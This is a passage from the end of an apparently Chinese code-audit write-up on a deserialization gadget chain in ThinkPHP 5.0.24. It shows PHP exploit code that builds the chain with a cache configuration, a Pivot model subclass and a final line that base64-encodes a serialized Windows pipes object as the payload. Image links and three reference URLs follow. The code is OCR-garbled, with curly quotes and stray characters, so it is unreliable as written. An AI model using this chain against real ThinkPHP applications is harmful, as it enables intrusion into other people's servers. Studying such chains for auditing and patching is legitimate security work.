 ```

‘cache_subdir’  => false,

‘prefix’        => ‘’,

‘path’          => ‘./demo/’,

‘data_compress’ => false,

];

$this->tag = true;

}

}

namespace think\model;

use think\Model;

class Pivot extends Model{ `}

use think\process\pipes\Windows;

echo base64_encode(serialize(new Windows()));` 
```

![image](../img/96165eee8e7d8f70321a6801c8a7104e.png)

![image](../img/3d6754079034848eb1d290d7ed1637f4.png)

## 参考链接

> http://althims.com/2020/02/07/thinkphp-5-0-24-unserialize/

> http://pines404.online/2020/01/20/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/ThinkPHP/ThinkPHP5.0.24%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%93%BE%E5%88%86%E6%9E%90/

> https://xz.aliyun.com/t/7082